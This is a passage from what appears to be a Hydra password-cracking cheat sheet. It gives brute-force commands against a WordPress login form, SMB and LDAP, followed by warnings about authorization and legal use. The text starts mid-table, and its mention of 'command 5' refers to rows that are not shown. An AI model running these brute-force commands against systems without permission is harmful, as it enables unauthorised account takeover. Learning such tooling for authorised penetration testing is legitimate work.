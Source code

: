 | `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Brute force WordPress admin login.                                         | HTTP    | `-l`, `-P`, `-V`, `http-form-post`                                             |
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f`                                                                                | Brute force SMB with user and password lists.                                | SMB     | `-L`, `-P`, `-V`, `-f`                                                        |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f`                                                                                  | Brute force LDAP with user and password lists.                               | LDAP    | `-L`, `-P`, `-V`, `-f`                                                        |

### Notes and Warnings:
- **Responsibility:** Ensure you have proper authorization before attempting any password cracking activities.
- **Legal Compliance:** Always adhere to legal and ethical standards when using these commands.
- **Command Corrections:** 
  - In command 5, the `-l` option should be followed by a username.
  - Verify that all paths to wordlists are correct and accessible.

This cheatsheet provides a quick reference for using Hydra to brute force various protocols. Always use these tools responsibly and within the bounds of the law.
